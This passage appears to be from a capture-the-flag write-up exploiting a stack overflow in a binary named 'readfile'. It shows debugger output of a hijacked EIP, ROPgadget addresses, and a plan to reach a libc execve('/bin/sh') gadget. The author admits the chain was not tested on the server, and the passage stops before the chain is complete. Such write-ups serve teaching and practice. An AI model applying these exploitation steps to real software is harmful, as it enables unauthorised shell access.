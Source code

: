 At this point, we now setup the memory to add a ROP chain for full execution.

```
[----------------------REGISTERS-----------------------]
...
*EBP  0x41414141 ('AAAA')
*ESP  0x804a0f8 (name+88) <-- 'CAAADAAAEAAAFAA...'
EIP  0x41414142 ('BAAA')
[------------------------STACK-------------------------]
00:0000| esp  0x804a0f8 (name+88) <-- 'CAAADAAAEAAAFAA...'
01:0004|      0x804a0fc (name+92) <-- 'DAAAEAAAFAAAGAA...'
02:0008|      0x804a100 (name+96) <-- 'EAAAFAAAGAAAHAA...'
03:000c|      0x804a104 (name+100) <-- 'FAAAGAAAHAAAIAA...'
04:0010|      0x804a108 (name+104) <-- 'GAAAHAAAIAAAJAA...'
05:0014|      0x804a10c (name+108) <-- 'HAAAIAAAJAAAKAA...'
06:0018|      0x804a110 (name+112) <-- 'IAAAJAAAKAAALAA...'
07:001c|      0x804a114 (name+116) <-- 'JAAAKAAALAAAMAA...'
[----------------------BACKTRACE-----------------------]
>  f 0 41414142
   f 1 41414143
   f 2 41414144
   f 3 41414145
   f 4 41414146
```

# And now we ROP...

By reading `/etc/os-release` on the server, we know that the server is an `Ubuntu 14` machine. We are also working on an `Ubuntu 14` machine, so we assume the same libc. (Note, I wasn't able to finally test this chain on the game server as time expired. Let's just assume the local environment was the same as the game ;-)

There are a lot of possibilities for the ROP chain, so let's try to call the "magic ROP gadget" which calls `execve('/bin/sh', 0, 0)` from libc. This gadget is found at `libc_base + 0x40069`. Typically, one calls this gadget one instruction before, but because we clobber ebx in the process, we can simply set `eax` to `/bin/sh` ourselves then call the remaining instructions.

```
.text:00040069                 mov     [esp+16Ch+status], eax
.text:0004006C                 call    execve
```

Two useful gadgets that can be found in the binary are below using `ROPgadget --depth 50 --binary readfile`.

```
1:
0x080486af : mov eax, dword ptr [0x804a088] ; cmp eax, ebx ; jb 0x80486ba ; mov byte ptr [0x804a084], 1 ; add esp, 4 ; pop ebx ; pop ebp ; ret
2:
0x080486be : add dword ptr [ebx + 0x5d5b04c4], eax ; ret
```

Turns out, there isn't an easy `pop eax; ret` in this binary, so we have to improvise on getting a value into `eax`. This is where the first gadget comes into play. The first gadget takes a value at `0x804a088` and puts that value into `eax`. Now we ask "How can we get a value into `0x804a088`"? Well lucky for us, `gets` comes in our binary for free. So our full gadget to get a value into eax is below:
